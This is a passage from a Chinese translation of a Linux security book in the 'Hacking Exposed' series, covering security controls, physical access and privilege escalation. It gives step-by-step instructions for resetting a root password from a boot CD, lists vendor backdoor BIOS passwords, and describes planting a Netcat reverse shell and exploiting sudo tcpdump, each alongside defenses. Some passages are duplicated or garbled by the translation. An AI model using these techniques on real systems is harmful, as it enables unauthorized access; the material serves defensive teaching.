模糊在防御针对特定标准的攻击也有其作用。通过不匹配标准，未加密的消息被充分遮蔽以避免攻击。一个简单的例子是使用 DNS 协议而不是 POP 来发送邮件。这绕过了某些防火墙和特定的家庭邮件策略，因为该协议未预期或未过滤。然而，对网络流量的彻底调查会发现请求是 POP 邮件。因此，模糊 POP 协议提供了机密性，但不能防止所有类型的拦截。当使用模糊隐藏网站上的 JavaScript 或其他类型的代码，或者使用隐术将信息嵌入图像中时，你必须意识到这无法让你免受针对性攻击。

### 暴露秘密

| 指标 | 值 |
| :--- | :--- |
| 流行度 | 5 |
| 简单性 | 5 |
| 影响 | 10 |
| 风险等级 | 7 |

暴露秘密通常被认为更多关于机密性控制（加密和模糊）。实际上，隐私本身通常被认为是一个目标而非一种控制。然而，安全行业将秘密定义为“亲密已知的事物”，这揭露已知的内容可以是消息中的内容以及检索消息的方法。因此，如果机密性保护信息不被无意查看，那么隐私控制则从源上防止消息的拦截。

电影中一种常见的剧情是警察知道将发生毒品交易，但不知道何时发生。在这种情况下，信息是已知的——毒品交易在 1月1日12:00——地点仍然不清楚。由于警方需要等到毒品出现且资金交接后才能将其定性为毒品交易并捣毁这个犯罪帝国，因此他们必须查明交易地点。最终，毒枭头目在同一个地点被捕获，但现场并没有毒品。警方失败了，在一场大动静之后，警察局长捕获了那些按照自己的规则行事的硬骨头。最终，他们识破了毒枭用来私下进行交易的巧妙计划。在这个示例中，交换手段是一种只有参与双方深切了解的过程，任何外部人员都无法有效拦截它。

为了成功暴露受隐私控制保护的秘密，攻击者必须能够监控目标交互的活动。只有这样，才能揭示隐藏秘密的刺激。许多网络协议就像“秘密握手”，如果执行不当，会导致对方拒绝或伪造响应。许多 UDP 服务仅在接收到配置正确的数据包时才会响应，否则它们会忽略请求。少少数 TCP 服务也是如此。端口敲门（Port knocking）是一种技术，旨在要求在所有人公开秘密之前，必须经过特定的定制数据包序列。所有这些协议都有一个弱点：监控。通过观察隐私系统在通信秘密时的反应，其持有者就会暴露秘密——就像电影里一样，头目们藏起电子设备，或者其中一个头目破解了他们的秘密。然而，电子系统允许另一种在物理世界中并不实际存在的技巧：将刺激作为暴力破解攻击的方法反复进行，并等待是否收收到任何响应。

### 创建适当的隐私控制

隐私控制了资产在双方之间显示或交换的方式，使其无法被双方之外的人所知。此外，要用隐私控制保护秘密，交换手段必须受到保护。遗憾的是，如果不使用机密性和从属控制，这将极其困难，而且用户又希望能够反复使用该过程，这阻碍了良好的隐私控制。

目前，某些类型的隐私控制内置于许多通过 UDP 通信的服务中。如果服务请求与服务不匹配，则不发送响应。然而，一旦服务请求已知，就可以对任何具有服务的系统反复发送该服务。隐私控制要求每次暴露秘密时（即使是授权用户）服务请求都要更改，因为没有办法确保某人在某一次交互中没有监控。然而，这使得协议变得非常糟糕。

一种著名的技术——端口敲门，试图增强网络中隐私控制的使用。然而，端口敲门需要使用加密隧道；否则，序列每次都会变化。你也可以更改后端序列，以便即使第三方监控了请求，结果仍然不明显。这种技术被某些认证机构使用，例如 ISE 的 OSSTMM 专业安全测试员 (OPST) 和分析师 (OPSA) 认证，最著名的是当你参加驾照考试的驾驶部分时。在考试的这部分，预计司机需要掌握的信息通常是众所知的，因此没有惊喜。然而，测试者不知道他她必须处理哪些街道或路况、天气状况或交通状况。考官知道这一点。因此，如果像端口敲门这样的技术可以用于重要的管理或行政服务，那么通往服务器的协议就可以受到保护——即使它被发现，因为它打开的端口是一个只有管理员才知道的变化的秘密。此外，如果服务器在特定时间内没有收到连接，它就会关闭。至于为什么管理员只需要知道有限的端口来连接到攻击者，攻击者可能会因为需要在特定时间限制内找到监听端口而感到困惑。

隐私控制结合从属、完整性、认证和机密性控制，创建了一个难以渗透的严密流程。然而，一个精心构建的隐私控制本身仍然是一个强大的工具，即使只是为了基于技能的认证考试。

### 更改

| 特性 | 值 |
|---|---|
| 流行度: | 10 |
| 简单性: | 10 |
| 影响力: | 10 |
| 风险等级: | 10 |

攻击系统或过程的最方法之一是破坏其完整性。被攻击者访问过的系统通常需要重新安装以重置完整性。无法读取的数据库可能会迫使警觉的攻击者通过植入不同数量的虚假数据使其看起来像可以读取，从而降低其可用性或用户对其的信任。无法读取的机密通信可能会被扰乱，导致其他人都无法读取。

关于战争的故事描述过，信息被截获并更改，导致敌人在他们应该攻击时停止，或在应该战斗时隐藏。关键信息的完整性与信息本身同等重要。因此，改变完整性就是改变信息，即使信息本身没有发生变化；但接收者可能并不知道，他们也会无视它。

对完整性的挑战几乎将为需要花费时间确保没有信息或服务被污染的组织带来时间和金钱上的成本。依赖信息真实性的组织是此类攻击的易受害者。

### 维护完整性

完整性是对防止未经授权更改的手段和资产的控制。为了确保没有发生变化，使用了各种技术来测量资产的当前状态，以便在未来的任何时候对资产状态进行再次测量并与其真实状态进行比较。某些技术使用如可信平台模块 (`TPM`) 等硬件，某些则使用软件创建状态的单向哈希。许多通信加密过程使用哈希值来防止被篡改或扰乱的通信被误解。

应用完整性控制相当容易，只要为控制所测的状态是完全未污染的。该过程中困难的部分是确保保存的哈希值不会丢失或被污染，否则就没有可能验证状态的方法。

### 静音守卫

| 特性 | 值 |
|---|---|
| 流行度: | 1 |
| 简单性: | 1 |
| 影响力: | 10 |
| 风险等级: | 4 |

可能最强大的控制是报警控制。在出现问题时引起注意并处理攻击的骑兵是任何战斗中强大的武器。由于保护 Linux 部署，报警控制仍然是最强大的武器——除非它被滥用。

假设报警已正确部署并监控，在不发生意外的情况下绕过的唯一方法是在它报警任何人之前将其切断，通过找到它不保护的资产路径来绕过，或者无故地一直触发它直到它被禁用。

在报警任何人之前切断报警可能太困难，尽管通往守卫的路径通常比报警本身短得多。拦截守卫有时比尝试切断报警更可行。然而，慢的报警（例如日志文件）可以被删除，这在渗透资产网关时很重要。但是，删除日志仅在攻击者拥有访问权限时有效，并不是处理网络报警的最佳选择。


绕过报警控制……由于受限于 Linux 系统环境，无法在不被察觉和不受跟踪的情况下移动。然而，大多数网络使用黑名单，因此攻击者只需要让攻击看起来像正常流量或无法识别的流量，直到黑名单无法匹配到已知攻击类型。

最后一种技术有效但噪音很大。它依赖噪声来掩盖正在进行的攻击。典型的人类反应在报警看起来无效时会关闭报警。检测系统可能会因为过载而丢弃它无法处理的流量，导致没有任何验证状态的方法。

### 充分利用警报

警报通知管理员操作安全（OPSEC）或其他控制措施已失效、被破坏或绕过。如果遵循简单的规则，应用警报控制并不困难：不应存在任何未受人员或其他传感器监控的传感器。

所有经过监控以触发警报的日志记录或网络流量验证必须是防篡改的。确保传感器防篡改，就是确保它不会被访问以进行篡改。为了做到这一点，必须由另一个传感器监控第一个传感器以是否存在未经授权的活动。每个日志文件都应该被监控，并且当日志文件被创建、删除或减少时，应发送警报。每个网络传感器都应被记录，并由另一个网络传感器根据其运行时间、负载和活动进行监控。

### 总结

使用不可否认性、机密性、隐私、完整性和警报等过程控制将极大增强 Linux 系统上资产的安全性。理解这些控制措施以及如何识别它们，将使能够以更深入的理解对待本书的其他章节，构建一个更受控的系统。

## 第二部分

## 第 4 章

### 案例研究

一名空调承包商走进公司大堂。他走向接待员，声称他应该负责维修机房的空调。接待员将他带到 IT 部门的成员处，后者迅速给了他进入机房的权限。在冰冷嘈杂的房间里等了几分钟后，陪同人员看了几次手机，最终离开了。

进入内部后，该空调承包商在开放的服务器机架中找到了目标服务器。他取出一张 Knoppix-STD Linux 启动盘，将其放入 CD 驱器，并按下电源键重启服务器，服务器迅速启动并进入了 Knoppix 系统。他挂载了相应服务器的分区，将 `/etc/shadow` 文件中的根密码替换为已知的哈希值（hash）和盐（salt）。他将 Netcat 复制到服务器，并安装相应的启动文件，以便每次服务器重启时都能向远程服务器创建反向隧道和 shell。他不经意地向肩后看了一眼，确保自己仍然是一个人。移除 Knoppix-STD 磁盘后，他重启服务器并走出机房，宣布空调运行良好。

回到家中一个更舒适的环境中，他打开显示器，看到远程 shell 已经在那里耐心地等待。他快速活动了一下指节，开始投入工作。他笑着想起了祖父曾经告诉他的话：“如果你做你热爱的事，那么你一生中就一天都不需要工作。”

## 第 4 章：本地访问控制

你可以实施世界上最好的网络和基于主机的安全软件及设备，但除非采取措施限制物理访问，否则一切切都是徒劳。信息安全中可能是最重要的单一规则就是：不惜一切代价防止对机器的物理访问！在大多数情况下，物理访问让攻击者能够按照自己的意愿尝试破坏计算机。他们可以在自己的时间范围内自由运行手头的任何工具，并拥有完全权限来恢复或修改组件。

### Linux 系统的物理访问

从物理安全（PHYSSEC）的角度来看，问题直到攻击者接触机器后才真正开始。拥有适当的访问控制以防止直接访问，并实施防止社会工程攻击的策略，将有助于确保攻击者保持在安全距离。

Linux 是一个健壮的操作系统，但它仍然受到硬件损坏的影响，这些损坏可能导致物理驱动器损坏或断电导致数据损坏。因此，除了访问控制外，机房还应包含以下项目，以确保完整性和可用性，并提供针对停电、电力异常、洪水等的保护：

- 为所有服务器在峰值利用率下提供足够的空调

- 充足的电源、UPS 和 PDU

- 架空地板

### 社会工程学

| 指标 | 值 |
| :--- | :--- |
| 流行度: | 6 |
| 简单性: | 5 |
| 影响: | 10 |
| 风险等级: | 7 |

社会工程学并不是 Linux 特有的，但它确实适用。人通常是安全中最脆弱的环节，而 Linux 也不能免于这个问题。因此，非常敏感的服务器应该包含在锁定的服务器机架内，提供额外的访问控制层，并保护高敏感设备免受不可信人员的侵害。此外，服务器应始终处于适当的环境中，至少具备以下访问控制以保护：

- 机房的门卡访问，仅允许授权人员进入

- 实时摄像头和视频录制设备，监控所有服务器并存档活动

- 高敏感服务器使用带锁的服务器机架

# 暴露的 Linux：Linux 安全秘密与解决方案

虽然严重的社会工程学可以表现为穿着制服、带有名片和工牌的工人和承包商，但请记住它也可能以面试者、新员工、临时员工或从事低级工作的实习生的形式出现。

# 防止社会工程学

考虑到潜在的后果，最好的计划是在开始阶段阻止潜在的攻击者。进入机房的人员，特别是访客或承包商，应始终经过审查，以验证他们是受邀的并已获得足够的批准。任何客人或承包商在机房内应始终受到监督。他们绝不应被单独留下。对所有人员的安全意识培训也将对这些被遵守的流程产生很大帮助。

尽管安全流程和安全意识培训会强化这些概念，但未经授权的物理访问仍受到以下

- 通过锁定关键区域并仅向需要访问的特定人员提供唯一密钥，来维护最小权限访问控制

- 在授予物理访问权限之前进行刑事和财务背景检查

- 设计访问系统的路由，使其路径通过多名员工，特别是具有相应系统访问权限的员工

- 将物理锁与高科技锁结合，这样即使破解了访问控制系统也不会导致问题

### 控制台访问

未经授权的物理访问仍然受到以下阻碍

- 通过锁定关键区域并仅向需要访问的特定人员提供唯一密钥，来维护最小权限访问控制

- 在授予物理访问权限之前进行刑事和财务背景检查

- 设计访问系统的路由，使其路径通过多名员工，特别是具有相应系统访问权限的员工

- 将物理锁与高科技锁结合，这样即使破解了访问控制系统也不会导致问题

一旦攻击者进入了 Linux 控制台，根密码的安全性仍然具有明显的弱点。

### 使用可启动 Linux CD 窃取/更改数据

| 指标 | 值 |
| :--- | :--- |
| 流行度: | 7 |
| 简单性: | 5 |
| 影响: | 10 |
| 风险等级: | 9 |

一旦攻击者获得了物理访问，进入系统可以简单地通过 CD 启动，将 `/etc/shadow` 文件中的根密码替换为已知的哈希值和盐。这可以通过以下步骤完成：

1. 重启系统并配置为从 CD-ROM 启动。

2. 启动 Linux 发行版，例如：

* Backtrack (`https://www.remote-exploit.org/backtrack_download.html`)

* Knoppix-STD (`https://s-t-d.org/download.html`)

3. 打开 root shell。

4. 通过输入 `mkdir mountpoint` 创建名为 `mountpoint` 的目录。这是文件系统挂载的地方。

5. 确定系统上的硬盘类型（SCSI 或 IDE）。SCSI 磁盘表示为 `sda`、`sdb`、`sdc` 等，而 IDE 硬盘表示为 `hda`、`hdb`、`hdc` 等。要确定磁盘类型，使用 `fdisk -l` 或查看 `dmesg` 命令的输出。

6. 确定要挂载的磁盘分区。SCSI 磁盘分区表示为 `sda1`、`sda2`、`sda3` 等，IDE 硬盘表示为 `hda1`、`hda2`、`hda3`...识别包含 `/etc/shadow` 文件的正确分区（始终是根分区）可能需要尝试，特别是当系统中存在大量分区时，但通常是前三个分区之一。

7. 输入 `mount dev/sda# mountpoint`，其中 `dev/sda#` 是你的根分区（`sda1`、`sda2`、`sda3`...），而 `mountpoint` 是你创建的目录。

8. 通过输入 `cd mountpoint/etc` 将 `/etc` 目录切换到根分区。

9. 使用你喜欢的文本编辑器（如 `vi`）打开 `/etc/shadow` 文件进行编辑。

10. 滚动到包含根信息的行，它看起来如下：

```
root:qDlrw/E8RSKw:13659:0:99999:7:::
```

11. 删除第一个冒号和第二个冒号之间的所有，使行保持如下：

```
root::13659:0:99999:7:::
```

> 注意 如果系统启用了密码策略，删除根密码将导致你无法使用空密码成功登录系统。必须复制并粘贴符合复杂度要求的、相同加密方法的已知密码来替换旧的根密码。

12. 保存文件并退出编辑器。

# Hacking Exposed Linux：Linux 安全秘密与解决方案

13. 输入 `cd` 返回主目录。

14. 输入 `umount mountpoint` 卸载目标文件系统。

15. 输入 `reboot` 重启系统并从驱动器中移除可启动的 Linux 发行版光盘。

16. 现在可以使用 root 身份无需密码（或使用已知密码）访问系统。

### 禁用可启动的 Linux 光盘

为了减轻攻击者通过本地启动可能造成的破坏，许多勤奋的系统管理员通常会采取常见的预防措施来防止进一步访问。这些预防措施通常是三种标准电子物理访问控制中的一种或多项：

- BIOS 密码

- 禁用从可移动介质启动

- 密码保护的硬盘（工作站易于实现，但对于服务器需要硬件级的远程管理能力，例如 IP KVM、Dell Drac cord 等）

### 绕过 BIOS 密码

| 流行度: | 6 |
| :--- | :--- |
| 简单性: | 8 |
| 影响力: | 7 |
| 风险等级: | 7 |

BIOS 密码是一种非常基础的安全形式，可以用来防止系统启动或防止 BIOS 被非意图第三方修改。它们能以极少的精力提供最低限的安全保护。

为了在管理员忘记 BIOS 密码时协助其访问 BIOS，许多 BIOS 供应商都包含一个后门 BIOS 密码以便于恢复。这些密码列位于 `http://pivrack.com` 网站上，在编写期间，它们如下：

| Award BIOS 后门密码 | BIOSTAR | KDD | ZAAADA |
| :--- | :--- | :--- | :--- |
| ALFAROME | CONCAT | Lkwpeter | ZBAAACA |
| ALLy | CONDO | LKWPETER | ZJJAADC |
| Ally | Condo | PINT | 1322222 |

### Award BIOS 后门密码（续）

- ALLY d8on Pint 589589

- APAf djonet SER 589721

- _award HLT SKY_FOX 595595

- AWARD_SW J64 SYXZ 598589

- AWARD?SW J256 Syxz

- AWARD SW J262 shift + syxz

- AWARD PW j332 TTPTHA

- AWKWARD j322

### AMI BIOS 后门密码

- AMI PASSWORD AMI_SW CONDO

- AAAMMIII HEWITT RAND LKPETER

- BIOS AMISW A.M.I.

### PHOENIX BIOS 后门密码

- BIOS phoenix PHOENIX

### 其他常见 BIOS 密码

- ALFAROME CMOS setup Syxz

- BIOSTAR cmos SETUP Wj

- bioster LKWPETER

- biosstar lkwpeter

| 制造商 | 其他 BIOS 密码 |
| :--- | :--- |
| Biostar | Biostar |
| Compaq | Compaq |
| Dell | Dell |
| Enox | xo11nE |
| Epox | central |
| Freetech | Posterie |
| Iwill | Iwill |
| Jetway | Spooml |
| Packard Bell | bell9 |
| QDI | QDI |
| Siemens | SKY_FOX |
| TMC | BIGO |
| Toshiba | Toshiba |
| VOBIS & IBM | Merlin |

### BIOS 密码绕过技术：使用输入设备

- Toshiba: 许多 Toshiba 笔记本电脑和台式电脑在启动过程中按下左 Shift 键即可绕过 BIOS 密码。

- IBM Aptiva: 你可以在启动过程中反复点击鼠标左右键绕过 IBM Aptiva 的 BIOS 密码。

### BIOS 密码绕过技术：使用启动盘工具

如果这些后门密码或技术无效，机器将从软盘或其他可移动介质启动，下一步是尝试使用 BIOS 密码移除工具。许多从启动盘运行的工具可以快速轻松地移除 BIOS。以下是几种从可移动介质运行的 BIOS 密码移除工具：

- CMOS password recovery tools 3.2

- KILLCMOS

- RemPass

### BIOS 密码绕过技术：移除 CMOS 电池

如果机器有 BIOS 密码且无法登录，可以通过多种方法轻松绕过。常见的方法包括移除 CMOS 电池、修改跳线设置以及使用各种软件工具。如果攻击者有耐心并且有 10 分钟的等待时间，他们只需移除 CMOS 电池即可移除 BIOS 密码。此时，主板会释放其存储的电量（来自电容器），密码将被擦除，BIOS 将重置为出厂设置。

### BIOS 密码绕过技术：修改跳线设置

另一种方法是修改主板上的跳线设置。通常可以通过对主板制造商进行快速网上搜索获取设置，有利于加速 BIOS 密码的移除。

将跳线设置更改为制造商指定的密码恢复选项即可启动机器并移除 BIOS 密码。图 4-1 所示的信息是通过在 Google 上快速搜索 Intel 网站获取的：

**清除密码 (J9C1-A)**

如果忘记密码，使用此跳线清除密码。默认设置为接引脚 1-2（启用密码）。



图 4-1 跳线设置

如果忘记密码，使用此跳线清除密码。默认设置为接引脚 1-2（启用密码）。

## 第 4 章：本地访问控制

### 全盘加密或分区加密

防止数据篡改或意外泄露的最佳方法是实施 Linux 系统提供的许多全盘加密或分区加密方法之一。这些方法使用加密算法对整个硬盘或分区的全部内容进行加密。

通过使用足够长度的密钥和足够复杂的密码对磁盘上的所有数据进行乱码，如果没有加密密钥，数据既无法读取也无法修改。为了解密数据并启动驱动器，必须在启动时输入密码。一旦应用密码或密钥，机器即可正常运行，所有数据都是可读的。在输入密码并解密驱动器之前，任何修改数据的尝试都会导致硬盘上的所有数据损坏且无法使用。

然而，这项技术并非万灵药，它确实有其缺点。正如前面提到的，一旦输入密码，机器就会正常启动，所有数据都会被解密。这意味着两点：

- 数据对于所有人以及在系统运行期间能够访问系统的远程用户来说，都是未加密的。

- 当机器启动或需要访问时，必须有人在场输入密码。否则，它需要某种自动密钥管理系统，而这又有自己的一套问题。

加密技术在为静态数据提供最大保护方面非常有效。但它阻碍了执行重启的能力（除非机器连接到基于 IP 的 KVM 或类似技术），而且一旦机器运行，它就无法为数据提供任何安全防护。

有很多工具可以执行全盘或分区加密。在创建分区时，加密分区是最容易的。大多数磁盘管理程序（如 Suse 中的 Yast）在创建分区时都提供加密分区的选项（见图 4-2）。只有在进入相应的分区后，才能访问这些分区（见图 4-3）。

使用 Yast 时，默认只允许对非系统分区进行加密。要加密系统分区，必须进行内核补丁和其他配置。以下是 David Braun 的 How-To 链接，详细说明了在 2.4 内核中从零开始设置整个加密 Linux 安装的步骤：

```
http://HOWTO/single/Disk-Encryption-HOWTO
```

此外，Boyd Waters 延续了 David Braun 的工作，但使用了 2.6 内核，可以通过以下链接访问该白皮书：

```
http://www.sdc.org/leila/usb-undle/readme.html
```

Truecrypt (`http://www.truecrypt.org/`) 和 BestCrypt (`http://www.jetico.com`) 以不同的方式为 Linux 提供了加密卷。这些工具将数据存储在可挂载卷的文件中。一旦挂载这些卷，它们看起来就像分区一样；

图 4-2 创建加密分区

否则，它们仅仅是文件，可以像任何其他文件一样被备份或移动。

## 权限提升

到目前为止，我们描述了攻击者由于缺乏物理访问控制或包围系统而破坏系统的方法。你不仅要目标是阻止对机器的物理访问或对其设备的直接访问，还必须考虑如何安全地允许被许可的用户获得某种程度的机器访问，但不给他们超过必要的权限。

此外，你必须防止用户自行提升权限并获得对非预期资源的访问。尽管如此，Linux 系统通常需要用户在执行某些命令时能够随时提升或降低自己的权限。Sudo 是一种实用，授予用户以提权权限运行某些命令的细粒度访问权限。

图 4-3 进入加密分区系统

### Sudo

在使用或管理 Linux 机器时，你经常需要在执行需要增强权限的管理员型任务和仅需基本用户权限的常规型任务之间来回切换。一直使用基本用户账户进行操作是无效的，而以 root 身份执行所有操作是不明智的。由于对标准用户账户的限制以及在账户之间来回切换所需的步骤，人们倾向于以超级用户登录系统并从头到尾执行所有任务。这是非常有问题的。

以 root 身份登录时，的每一个操作、每一个进程、完成的一切都是以超级权限运行的。如果命令输入错误并无意中给出了覆盖敏感操作系统文件的指令，它将被覆盖。如果是 GUI 版本的 Linux 用户以 root 身份上网，恶意代码将在网络浏览器中以 root 身份运行。

你可以通过几种方法处理这种困境。在 root 账户和标准用户账户之间切换是一种方法，但由于许多原因，这很麻烦。更好的选项是使用像 sudo 这样的工具，为运行单个命令授予提权权限。

Sudo 是一种优雅的工具，非常适合不涉及系统级软件程序的不频繁管理员任务。它确保通过单个命令为了特定目的以提权用户权限进行操作。要使用提权权限，请在命令行输入 `sudo` 并输入密码（仅第一次；此后系统会在指定时间内记住密码）。


### 细粒度 Sudo 配置

`Sudo` 不限于特权用户的自我限制。在允许非特权用户执行特权任务时，它实际上最强大。如果某些用户需要在没有 `root` 权限的情况下以 `root` 权限运行进程，`sudo` 是一个完美的解决方案。它允许指定用户允许运行的完整路径。

例如，假设团队中的安全分析师需要使用 `tcpdump` 对 Linux 机器的各种网络流量进行数据包捕，分析师不需要查看机器上存在的其他数据包。分析师需要 `root` 权限来运行 `tcpdump`，但提供 `root` 密码是不可避免的。你可以使用 `sudo` 启用 `tcpdump`，用户只需要其登录密码。例如，如果 `/etc/sudoers` 文件包含以下条目，幸运的用户就可以以 `root` 身份运行 `/usr/sbin/tcpdump`。

> Lucky overlord = `usr/sbin/tcpdump`

为了起见，服务器认为这允许单个文件从共享网络位置为多台服务器提供配置。`sudo` 的原始规范之一是其配置可以集中存放并供网络上的多台机器访问，且单个文件可以提供各种服务器的所有用户权限。通过这种方式，管理员可以在单一位置创建和更新单个文件，而不是在不同的机器间往返。

### 关于 Sudo 的警告

永远不要设计让受限的 `sudo` 用户具备提升其权限或其他账户权限的能力。要仔细判断分配给 `sudo` 访问（通过 `sudo`）的工具是否可能被用于增强其访问级别，或供与其可能发生冲突的人使用。看似无害的日常工具（如 `cat`、`echo` 和 `vi`）在获得 `root` 权限后，可以很容易地用于覆盖配置文件和修改权限。

即使在之前提到的 `tcpdump` 示例中，也有你需要考虑的问题。假设的安全分析师之所以被授予 `/usr/sbin/tcpdump` 的 `sudo` 权限而不是提供 `root` 密码的原因之一，是为了允许创建新的 `tcpdump` 文件，但防止分析师查看系统上已存在的文件。为了防止分析师访问现有的 `tcpdump` 文件，这

## 第4 章：本地访问控制

文件应该赋予 `600` (`rw-------`) 权限，并且应该由 `root` 所有。

请查看以下示例，观察分析人员如何利用其对单个进程的访问权限，获得对文件的提权及非预期访问：

```
test1@linux:/var/traffic> whoami
test1
test1@linux:/var/traffic> ls -l
total 3776
-rw------- 1 root 3858884 Oct 10 14:29 traffic.out
test1@linux:/var/traffic> sudo /usr/bin/tcpdump -r traffic.out -w traffic.out2
reading from file.out, link-type EN10MB (Ethernet)
test1@linux:/var/traffic> ls -l
total 7551
-rw------- 1 root 3858884 Oct 10 14:29 traffic.out
-rw-r--r-- 1 root 3858884 Oct 10 14:43 traffic.out2
```

注意 `traffic.out2` 文件是全局可读的。分析人员利用其相应的权限，获得了对本应受保护资源的非预期且不受欢迎的访问。

## 权限提权

| 流行度: | 10 |

|---|---|

| 简单性: | 4 |

| 影响: | 10 |

| 风险等级: | 8 |

如上一节所示，分析人员能够熟练地使用 `tcpdump` 命令绕过访问控制。这是更大恶意行为类别的一部分，被称为权限提权，它完全值得拥有专门的章节（也许是几卷书）来充分阐述。

列举所有实现权限提权的方法——尤其是那些识别出的日益增加的方法——是不可能的，但结果大同小。攻击者利用物理访问控制的缺失、系统配置错误或应用程序的漏洞来获取该用户或应用程序无法访问的资源。提到的资源可以是系统上的任何内容，例如受限文件、特权地址空间、其他进程，甚至是用户账户。

之前的章节已经提到了许多访问控制漏洞和系统配置错误的可能性。其中任何一个或所有漏洞都可能导致权限提权尝试的成功，但某些的影响显然比其他的更大。在特定环境中选择设计用于缓解这些漏洞的最佳访问控制组合是关键。

## 被黑客暴露的 Linux：Linux 安全秘密与解决方案

尽管有物理或管理安全措施（或缺乏这些措施），权限提权的主要攻击向量无疑是应用程序的漏洞。糟糕的输入验证，或忽略一个或多个区域的边界检查，经常会导致应用程序安全被绕过，并向非预期用户授予系统级访问。

这种利用方法可以通过应用程序接收数据的任何方式（本地或远程）发生。它几乎总是是因为应用程序没有正确验证数据类型（例如 SQL 注入）或数据量（例如缓冲区溢出）。在大多数默认软件配置中，漏洞通常会导致整个系统被破解。

### 防止权限提权

对某些安全措施进行仔细配置和实施可以弥补其他领域的弱点。例如，如果公司强制所有服务器和守护进程都在精心配置的根环境中运行，并使用除根环境外在系统上绝对没有权限的用户账户，那么即使漏洞与驱动程序或应用程序相关，服务器也有更大的机会抵御漏洞。

基本前提是尽可能地创建许多“显著”的难度层。不要免费提供任何东西。通常，即使是最投入的攻击者也会转向更容易的猎物。此外，成功的权限提权攻击受到以下四项的限制：

- 尝试执行权限提权的个人的机智、、技能和经验

- 尝试防止权限提权和系统破解的系统管理员的投入程度、技能和经验

- 软件开发人员在追求发布最高质量产品时所设计的良好架构和安全代码

- 用于缓解各种杂杂权限提权方法的硬件增强

通常，第一项是对权限提权攻击最大的威胁。通常，如果攻击者足够耐心，对被攻击的环境有良好的了解，对影响目标系统的当前漏洞和利用程序保持与时同步，并且有足够的决心，他们将找到一种方法来获得他们寻求的访问层级。

管理员通常工作过载、缺乏技能，并且无法跟上辅助系统安全所需的维护工作。软件开发者倾向于确保程序按其预定目的运行，但让用户执行大部分的质量保证（特别是在漏洞识别方面），然后在以后去收拾残局。因此，胜算在投入的攻击者的一方。安全专业人员应该记住这一点。

### 使用 Systrace 交互式策略限制系统调用

最强大的系统访问控制之一是 `Systrace` 工具，它允许执行交互式策略。合理利用此工具可以替代其他访问控制，或者作为深度防御架构的一部分添加到它们中。它本质上创建了一个虚拟环境，其中可以为特定应用程序允许或拒绝对系统资源的访问。`Systrace` 工具有三个主要功能：

- 入侵检测

- 非交互式策略执行

- 权限提权

入侵检测：`Systrace` 工具允许管理人员监控系统（特别是当远程机器上进行时）并为系统生成警告。

非交互式策略执行（又 IPS）

权限提权（SetUID/SGID）

入侵检测：针对特定的...

- * Bastille (`http://www.bastille-linux.org/`)

- * Hardened Linux (`http://hardenedlinux.sourceforge.net/`)

- * EnGarde (`http://www.engardelinux.org`)

### 软件漏洞利用

| 流行度: | 8 |

| --- | --- |

| 简单性: | 5 |

| 影响: | 10 |

| 风险评分: | 8 |

比硬件驱动程序流不断被攻击者攻破这一威胁更大的威胁，是每天识别并发布的数之穷尽且无法估量的软件漏洞，这些漏洞通过 RSS 馈送推送到安全专业人员和攻击者的桌面上。遗憾的是，软件漏洞被发现、创建并纳入 Metasploit 的速度惊人，但无疑这与那些被发现但未公开的漏洞和地下利用程序相比不可比拟的——这是一个令人不安的想法。

这种不幸的现实催生了一整套工具，它们简化并优化了发现和利用软件以及驱动程序/模块漏洞的过程。一个显著的工具（Metasploit）将利用已知漏洞的过程降低到了“脚本小子”或祖母级别的专业水平。Metasploit 和其他（漏洞较少的）工具帮助各种技能水平的黑客（以及祖母们）利用易受到缓冲区溢出攻击、输入验证不当或易受粗糙代码相关攻击的软件。

导致关键漏洞和远程代码执行利用的主要因素是设计不当、代码编写粗糙且测试不足的软件。遗憾的是，没有哪家公司能向公众发布完美的代码。无论开发者的才能如何，无论公司付出的努力，任何具有显著复杂性的软件总会存在某些漏洞。

软件是为特定目的而设计的，质量保证（QA）通常是为了确保软件在狭定义的参数内符合其预定功能。QA 并不关注，也永远无法完全探索软件的所有可能的误用情况以及在执行过程中可能发生的任何问题。此外，大多数 QA 环境并不侧重于识别和缓解软件可能被误用和/或滥的方法。

此外，如果完美代码是一项要求，那么软件将永远不会发布。而且，如果第一个版本就是完美的，公司就无法向你出售升级包了。

## 黑客攻防 Linux：Linux 安全秘密与解决方案

### 防止软件漏洞利用

毫无疑问，软件公司和开发人员可以在保护其代码方面做得更多。例如，在所有代码上进行边界检查和更好的输入验证是一个良好的开始。此外，QA 部门必须设计测试并投入资源，以验证是否已实施正确的输入验证，并且缓冲区不会被过载。更重要的是，通过全面的规划和设计创建安全架构并利用安全编码实践，既是审慎的，目前又严重缺乏。

即使在发现漏洞后，许多软件供应商的响应也非常缓慢，只有在来自用户社区的大量负面反馈和请求后，供应商才会分配资源修复漏洞并发布补丁。许多 Linux 应用就是此类情况。随后，当软件供应商通过发布补丁做出响应时，这些补丁通常是非常重要的。

将所有软件都更新到最新版本——即补丁中包含安全增强——并禁用或删除任何不必要的软件是至关重要的。这对于网络监听应用程序特别重要，但对于机器上安装的任何软件都是如此。仅仅对于硬件和驱动程序，机器上安装的软件越多，攻击者发现漏洞并提升权限的机会就越多。

